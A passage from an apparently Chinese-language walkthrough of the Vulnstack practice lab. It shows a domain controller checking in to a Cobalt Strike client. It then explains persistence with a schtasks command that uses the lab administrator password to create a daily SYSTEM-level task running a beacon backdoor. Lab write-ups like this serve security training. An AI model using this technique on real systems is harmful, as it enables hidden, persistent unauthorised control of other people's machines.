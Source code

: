<br>

随后在cs客户端查看域控服务器的上线情况		

![image-20221016221652207](vulnstack靶场系列一/image-20221016221652207.png)

<br>

## 权限维持		

### 创建计划任务

使用`schtasks`命令远程创建计划任务执行后门程序, 前提要知道远程主机的管理员账号密码

```
schtasks /create /s 192.168.52.138 /u Administrator /p QWEasd123 /ru "SYSTEM" /tn test /sc DAILY /st 20:45 /tr C:\\beacon.exe /F
```

> /ru: 运行该任务的用户, 对于系统帐户，有效值是 ""、"NT AUTHORITY\SYSTEM" 或"SYSTEM"
>
> /tn: 任务名称
>
> /sc: 任务执行频率, 其中daily表示每天执行
>
> /tr: 要执行的文件
>
> /F: 强制执行任务

<br>

查看域控服务器的任务计划程序, 可发现刚创建的后门计划任务

